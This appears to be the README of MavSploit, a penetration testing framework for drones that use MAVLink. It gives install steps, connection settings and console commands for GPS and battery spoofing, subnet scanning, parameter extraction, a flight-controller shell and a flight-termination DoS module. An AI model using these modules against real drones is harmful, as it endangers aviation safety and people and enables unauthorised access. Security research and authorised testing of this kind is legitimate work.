

# MavSploit



*MavSploit* is an advanced penetration testing tool designed specifically for identifying and exploiting vulnerabilities within the MavLink communication protocol, commonly used in drones and UAV systems. Similar to Metasploit, MavSploit provides a modular framework that allows security professionals and researchers to deploy a variety of payloads, conduct penetration tests, and assess the security posture of MavLink-enabled devices. Whether you're testing drone resilience or exploring the security of UAV networks, MavSploit offers the tools needed to uncover and address potential security risks in the MavLink ecosystem.

# Installation

```bash
git clone https://github.com/Rud3m/MavSploit.git
cd MavSploit
sudo pipenv install
sudo pipenv shell
python mavsploit.py
```

# Connection Types

MavSploit supports both **network connections** (UDP/TCP) and **USB serial connections**, allowing you to interact with drones over IP networks or directly via USB serial ports.

## Network Connections

Network connections use the MAVLink protocol over UDP or TCP. This is common when connecting to:
- Ground Control Stations (GCS) like Mission Planner or QGroundControl
- MAVLink routers and proxies (MAVProxy, mavlink-router)
- Simulated drones (SITL - Software In The Loop)
- Network-connected flight controllers

**Format**: `<protocol>:<ip_address>:<port>`

### Network Connection Examples

```bash
# UDP connection (most common for GCS and SITL)
set connection udp:192.168.1.100:14550

# TCP connection (common for direct flight controller connections)
set connection tcp:10.13.0.6:5760

# Localhost UDP (for local SITL testing)
set connection udp:127.0.0.1:14550
```

**Common MAVLink Ports**:
- `14550` - Default UDP port for GCS (QGroundControl, Mission Planner)
- `14551` - Secondary UDP port
- `5760` - Common TCP port for flight controllers
- `5770` - Secondary TCP port

## Serial Connections

Serial connections allow direct USB communication with flight controllers like:
- Pixhawk, Cube, Holybro flight controllers
- ArduPilot-based systems
- PX4-based systems
- Any MAVLink device with USB-to-serial interface

**Format**: `<device_path>` (baud rate set separately)

### Serial Connection Examples

**Linux**:
```bash
# Standard USB-to-serial adapter
set connection /dev/ttyUSB0
set baud 57600
run

# USB ACM device (common for Pixhawk)
set connection /dev/ttyACM0
set baud 115200
run

# High-speed connection
set connection /dev/ttyUSB0
set baud 921600
run
```

**Windows**:
```bash
# COM port connection
set connection COM3
set baud 57600
run

# Higher COM port number
set connection COM12
set baud 115200
run
```

### Common Baud Rates

Different flight controllers and configurations use different baud rates:

- **57600** - Default for most ArduPilot telemetry radios (default in MavSploit)
- **115200** - Common for USB connections to flight controllers
- **921600** - High-speed USB connections (Pixhawk 4, Cube Orange, etc.)
- **500000** - Some custom configurations
- **230400** - Less common, some telemetry systems

**Note**: The baud rate must match the flight controller's telemetry port configuration. Check your flight controller parameters (e.g., `SERIAL1_BAUD` in ArduPilot).

### Finding Serial Ports

**Linux**:
```bash
# List all USB serial devices
ls /dev/ttyUSB* /dev/ttyACM*

# Show detailed serial port information
dmesg | grep tty

# Use the scanner module to auto-detect
use enum/scanner
set mode serial
set baud 57600
run
```

**Windows**:
```bash
# Use Device Manager to find COM ports
# Or use MODE command
mode

# Use the scanner module to auto-detect
use enum/scanner
set mode serial
set baud 57600
run
```

## Usage Examples

### Example 1: Network-Based GPS Spoofing

```bash
# Start MavSploit
python mavsploit.py

# Select GPS spoofing module
use spoofing/gps_spoofing

# Configure network connection
set connection udp:192.168.1.100:14550

# Set spoofing parameters
set mode spoof
set latitude 377490000
set longitude -1221940000

# Execute
run
```

### Example 2: Serial-Based Parameter Extraction

```bash
# Start MavSploit
python mavsploit.py

# Select parameter extraction module
use exfil/param_extractor

# Configure serial connection (Linux)
set connection /dev/ttyUSB0
set baud 57600

# Set output path
set save_path ./drone_params.txt

# Execute
run
```

### Example 3: Scanning for Devices

**Network Scanning**:
```bash
use enum/scanner
set mode network
set ip_range 192.168.1.0/24
set port 14550,14551,5760,5770
run
```

**Serial Enumeration**:
```bash
use enum/scanner
set mode serial
set baud 57600
set serial_timeout 5
run
```

### Example 4: USB Serial Battery Spoofing

```bash
# Select battery spoofing module
use spoofing/battery_spoofing

# Configure serial connection (Windows)
set connection COM3
set baud 115200

# Set spoofing parameters
set battery_remaining 0
set voltage 3000

# Execute
run
```

## Troubleshooting

### Serial Connection Issues

**"Permission denied" on Linux**:
```bash
# Add your user to the dialout group
sudo usermod -a -G dialout $USER
# Log out and log back in for changes to take effect

# Or run with sudo
sudo pipenv shell
python mavsploit.py
```

**"Port not found" error**:
- Verify the device is connected: `ls /dev/ttyUSB* /dev/ttyACM*`
- Check if another program is using the port (Mission Planner, QGroundControl, MAVProxy)
- Try unplugging and replugging the USB device
- Check `dmesg | tail` for USB connection messages

**"No heartbeat received"**:
- Verify the baud rate matches your flight controller configuration
- Check if the flight controller is powered on
- Ensure MAVLink is enabled on the serial port
- Try different baud rates: 57600, 115200, 921600
- Check cable integrity (try a different USB cable)

**Windows COM port issues**:
- Use Device Manager to verify the COM port number
- Install proper USB-to-serial drivers (FTDI, CP210x, CH340)
- Close other programs using the COM port

### Network Connection Issues

**"Connection refused"**:
- Verify the IP address and port are correct
- Check if the target device is reachable: `ping <ip_address>`
- Ensure no firewall is blocking the connection
- Verify the MAVLink service is running on the target

**"No heartbeat received" (network)**:
- Check if the MAVLink stream is active
- Verify you're using the correct protocol (UDP vs TCP)
- For UDP, ensure you're connecting to the correct broadcast address
- Try using MAVProxy to verify the connection first:
  ```bash
  mavproxy.py --master=udp:192.168.1.100:14550
  ```

**"Connection timeout"**:
- Increase the timeout value if available
- Check network latency and stability
- Verify the target device is not in sleep mode
- Ensure the MAVLink protocol version matches

## Module-Specific Notes

### Spoofing Modules
All spoofing modules support both network and serial connections:
- `spoofing/attitude_spoofing`
- `spoofing/battery_spoofing`
- `spoofing/critical_error_spoof`
- `spoofing/satellite_spoofing`
- `spoofing/gps_spoofing`

**Note**: Spoofing over serial requires the module to send messages with a system ID that matches or conflicts with the actual flight controller.

### Exfiltration Modules
All exfiltration modules support both connection types:
- `exfil/param_extractor` - Extract all flight controller parameters
- `exfil/log_dump` - Download flight logs
- `exfil/mavftp` - MAVLink FTP file operations
- `exfil/shell` - Execute commands on the flight controller

### Enumeration Modules
- `enum/scanner` - Auto-detect MAVLink devices on network or serial ports
- `enum/heartbeat_listener` - Passive listening for heartbeat messages
- `enum/wireshark_plugin_generator` - Generate Wireshark dissector plugins

### DoS Modules
- `dos/flight_termination` - Terminate flight operations

## Security and Legal Notice

**IMPORTANT**: MavSploit is designed for **authorized security testing only**. Using this tool against systems you do not own or have explicit permission to test is **illegal** and **unethical**.

Only use MavSploit in:
- **Laboratory environments** with your own equipment
- **Authorized penetration testing engagements** with written permission
- **Security research** on systems you own or control
- **Educational purposes** in controlled environments

Unauthorized access to drones, UAVs, or MAVLink systems may:
- Violate computer fraud and abuse laws
- Endanger aviation safety
- Result in criminal prosecution
- Cause property damage or injury

**Always obtain proper authorization before testing.**
